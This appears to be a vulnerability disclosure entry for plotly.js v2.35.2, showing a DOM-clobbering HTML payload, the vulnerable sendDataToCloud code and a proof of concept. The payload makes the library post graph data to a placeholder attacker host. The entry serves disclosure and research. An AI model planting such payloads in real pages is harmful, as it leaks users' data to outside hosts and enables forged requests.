 ## plotly.js

### Meta

+ Library: plotly.js
+ Stars: 16.9K
+ Version: v2.35.2
+ Fingerprint: `window.PLOTLYENV  !== undefined`
+ Payload: ```<a id="PLOTLYENV"></a><a id="PLOTLYENV" name="BASE_URL" href="https://xxx.xxx.xxx/?a="></a>```
+ Impact: CSRF
+ CVE: N/A
+ Status: N/A
+ Security Policy: Email
+ Foundby: TheHulk

### Library

https://github.com/plotly/plotly.js

### Vulnerable Code Snippet

```javascript
plots.sendDataToCloud = function(gd) {
    var baseUrl = (window.PLOTLYENV || {}).BASE_URL || gd._context.plotlyServerURL;
    if(!baseUrl) return;

    gd.emit('plotly_beforeexport');

    var hiddenformDiv = d3.select(gd)
        .append('div')
        .attr('id', 'hiddenform')
        .style('display', 'none');

    var hiddenform = hiddenformDiv
        .append('form')
        .attr({
            action: baseUrl + '/external',
            method: 'post',
            target: '_blank'
        });

    var hiddenformInput = hiddenform
        .append('input')
        .attr({
            type: 'text',
            name: 'data'
        });

    hiddenformInput.node().value = plots.graphJson(gd, false, 'keepdata');
    hiddenform.node().submit();
    hiddenformDiv.remove();

    gd.emit('plotly_afterexport');
    return false;
};
```

## PoC

```html
<!--Library-->
<div id="gd"></div>
<script src="https://cdn.plot.ly/plotly-2.35.2.min.js" charset="utf-8"></script>
<script>
    Plotly.newPlot("gd", /* JSON object */ {
        "data": [{ "y": [1, 2, 3] }],
        "layout": { "width": 600, "height": 400}
    })
    Plotly.Plots.sendDataToCloud(gd);
</script>
<!--Library-->

<!--Payload-->
<a id="PLOTLYENV" href="https://xxx.xxx.xxx/?a="></a>
<a id="PLOTLYENV" name="BASE_URL" href="https://xxx.xxx.xxx/?a="></a>
<!--Payload-->
```